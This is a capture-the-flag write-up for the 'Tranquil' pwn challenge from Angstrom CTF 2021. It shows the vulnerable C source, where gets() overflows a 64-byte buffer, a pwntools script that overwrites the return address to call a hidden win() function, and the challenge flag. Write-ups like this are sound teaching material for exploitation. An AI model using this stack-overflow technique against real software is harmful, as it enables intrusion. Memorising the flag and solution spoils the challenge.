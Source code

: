 ```yaml
---
name: Tranquil (2021)
event: Angstrom CTF 2021
category: Pwn
description: Writeup for Tranquil (pwn) - Angstrom CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: true
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Tranquil

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/2pqG6opzrug/0.jpg)](https://youtu.be/2pqG6opzrug?t=425s "Angstrom 2021: Tranquil")

## Challenge Description

> Finally, inner peace - Master Oogway

## Source

{% code overflow="wrap" %}
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int win(){
    char flag[128];

    FILE *file = fopen("flag.txt","r");

    if (!file) {
        printf("Missing flag.txt. Contact an admin if you see this on remote.");
        exit(1);
    }

    fgets(flag, 128, file);

    puts(flag);
}

int vuln(){
    char password[64];

    puts("Enter the secret word: ");

    gets(&password);


    if(strcmp(password, "password123") == 0){
        puts("Logged in! The flag is somewhere else though...");
    } else {
        puts("Login failed!");
    }

    return 0;
}

int main(){
    setbuf(stdout, NULL);
    setbuf(stderr, NULL);

    vuln();

    // not so easy for you!
    // win();

    return 0;
}
```
{% endcode %}

## Solution

{% code overflow="wrap" %}
```py
from pwn import *

def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

def find_ip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendlineafter(':', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    # ip_offset = cyclic_find(p.corefile.pc)  # x86
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify your GDB script here for debugging
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Set up pwntools for the correct architecture
exe = './tranquil'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Enable verbose logging so we can see exactly what is being sent (info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(100))

# Start program
io = start()

# Build the payload
payload = flat({
    offset: elf.symbols.win
})

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(': ', payload)
io.recvuntil('Login failed!\n')

# Get our flag!
flag = io.recv()
success(flag)
```
{% endcode %}

Flag: `actf{time_has_gone_so_fast_watching_the_leaves_fall_from_our_instruction_pointer_864f647975d259d7a5bee6e1}`

